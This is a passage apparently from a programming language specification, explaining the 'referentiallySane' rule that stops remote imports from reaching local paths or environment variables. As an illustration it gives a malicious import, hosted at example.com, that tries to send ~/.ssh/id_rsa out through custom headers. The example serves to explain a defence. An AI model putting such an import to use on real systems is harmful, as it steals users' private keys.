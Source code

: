 
    ────────────────────────────────────
    referentiallySane(path file, import)


    ──────────────────────────────────────
    referentiallySane(. path file, import)


    ───────────────────────────────────────
    referentiallySane(.. path file, import)


    ──────────────────────────────────────
    referentiallySane(~ path file, import)


    ────────────────────────────────
    referentiallySane(env:x, import)


This is a security check because it prevents remote imports from exfiltrating
local paths and environment variables using the language's support for
custom headers.  For example, this check prevents the following malicious
import:


    {- This file is hosted at `https://example.com/bad` and attempts to steal a
       sensitive file from the user's system using the language's support for
       custom headers
    -}
    https://example.com/recordHeaders using ./headers

... which in turn tries to import this file:

    {- This file is hosted at `https://example.com/headers` and attempts to
       read in the contents of the user's private key

       This import would be rejected because its canonical path is:

           https://example.com/headers

       ... whereas the canonical path of the private key is:

           ~/.ssh/id_rsa

       ... and the following `referentiallySane` judgment is not valid:

           referentiallySane(https://example.com/headers, ~/.ssh/id_rsa)

       ... because the referentially transparent remote import is trying to
       access a referentially opaque local import.
    -}
    [ { header = "Private Key", value = ~/.ssh/id_rsa as Text } ]


This is also a sanity check because a referentially transparent import cannot
truly be referentially transparent if it depends on any referentially opaque
imports.

## CORS
